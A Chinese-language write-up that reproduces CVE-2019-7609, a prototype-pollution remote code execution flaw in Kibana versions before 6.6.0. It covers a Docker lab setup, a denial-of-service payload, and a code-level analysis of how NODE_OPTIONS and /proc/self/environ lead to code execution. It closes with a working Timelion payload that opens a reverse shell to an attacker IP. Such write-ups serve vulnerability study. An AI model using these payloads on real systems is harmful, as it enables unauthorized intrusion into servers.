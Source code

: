 （CVE-2019-7609）kibana \< 6.6.0 未授权远程代码命令执行
=======================================================

一、漏洞简介
------------

Kibana 是一款开源的数据分析和可视化平台，它是Elastic
Stack成员之一，设计用于和Elasticsearch协作。

二、漏洞影响
------------

kibana \< 6.6.0

三、复现过程
------------

#### 环境搭建

    docker pull docker.elastic.co/kibana/kibana:6.5.4 
    docker network create elastic 
    docker run --network=elastic --name=elasticsearch docker.elastic.co/elasticsearch/elasticsearch:6.5.4
    docker run -d --name kibana --net elastic -p 5601:5601 docker.elastic.co/kibana/kibana:6.5.4 
    docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' kibana

这样启动的kibana没法调试，可以自己改改镜像，在node启动命令里加个inspect参数：

    docker ps -a --no-trunc  # 找到启动脚本

    在node启动命令后加上--inspect=0.0.0.0:9229

    docker commit kibana kibana-debug  # 保存修改后的镜像
    docker rm -f kibana
    docker run --name kibana --net elastic -p 5601:5601 -p 9229:9229 kibana-debug  # 启动修改后的kibana容器

kibana控制台：<http://127.0.0.1:5601/> inspect调试器：chrome://inspect/

#### 漏洞分析

原型链污染点：props()函数可以给对象设置属性

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId27.png)

有了污染点，就可以思考怎么利用了。

最简单的利用，设置一个cookie就可以导致拒绝服务：

    .es(*).props(label.__proto__.cookie="aaa")

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId28.png)

要复原的话可以在inspect调试器里删掉原型对象的cookie属性：

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId29.png)

DOS很好实现，怎么搞成RCE呢？根据经验，容易想到一些常见情形，如：

    if(obj.jsCode) eval(obj.jsCode) 这种白给的
    express ejs模版引擎中的动态函数调用

作者并没有找到明显的代码执行点，但是在瞎点到canvas的时候，他发现控制台暴了很多错误（这是inpector的输出，也就是说如果启docker的时候加了-d的话，可能就错过这个RCE了\...）。

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId30.png)

作者据此得出结论：kibana在创建新进程
创建进程可就是个敏感的行为了，能不能污染命令/参数呢？
来动态看下进程创建的过程，

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId31.png)

首先调用normalizeSpawnArguments.apply()处理参数，

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId32.png)

跟进，

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId33.png)

这里实际是在处理child\_process.spawn(command\[, args\]\[,
options\])的第三个参数options。

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId34.png)

这里面的有些参数是undefined的，只有声明了才会处理，也即是我们可以污染的。
作者利用的就是这个env参数，它以键值对的形式向子进程传递环境变量（我尝试了一些其它参数，没发现可利用的）。

能控制进程的环境变量了，有什么用呢？我们不知道子进程会对环境变量做些什么操作啊，这是容易被忽视的一个重点。
回想下控制台报的错：\"Starting inspector on 0.0.0.0:9229 failed: address
already in use\"。
这句话透露出的是：此时正在创建一个node命令进程，并且使用了\--inpect:0.0.0.0:9229参数。
这下目标就清晰了，我们能控制的node的环境变量。

在node中，有一个NODE\_OPTIONS变量，

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId35.png)

通过这个变量，可以覆盖node进程的参数。
也就是说，现在我们能控制node进程的参数了。这就很有用了，比如\--eval参数是可以直接执行代码的。

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId36.png)

但是，NODE\_OPTIONS似乎考虑到了这种潜在的安全问题，它只能使用部分参数，向\--eval这种是用不了的。

不过作者找到了另一个参数\--require，

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId37.png)

这个有点像php里的auto\_prepend\_file，预加载一个文件。

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId38.png)

现在我们可以看成有一个文件包含的洞了，怎么RCE呢？
通常，我们都会上传一个文件再包含，或者去包含web服务器日志/SSH日志。
作者这里利用的方法也十分巧妙，Linux下一切皆文件，我们已经能控制子进程的环境变量，也就是能控制/proc/self/environ这个文件，直接包含这个文件不就好了。

![](./resource/(CVE-2019-7609)Kibana<6.6.0未授权远程代码命令执行/media/rId39.png)

最后payload如下：

> 将POC里的反链IP地址换成自己的，然后在目标机器上的 `Timelion`
> 选项下将以下 `POC` 粘贴进去，然后点击 `Run` 运行：

    .es(*).props(label.__proto__.env.AAAA='require("child_process").exec("bash -c \'bash -i>& /dev/tcp/10.70.53.113/6666 0>&1\'");//')
    .props(label.__proto__.env.NODE_OPTIONS='--require /proc/self/environ')

然后自己机器开启监听，再点击 Canvas
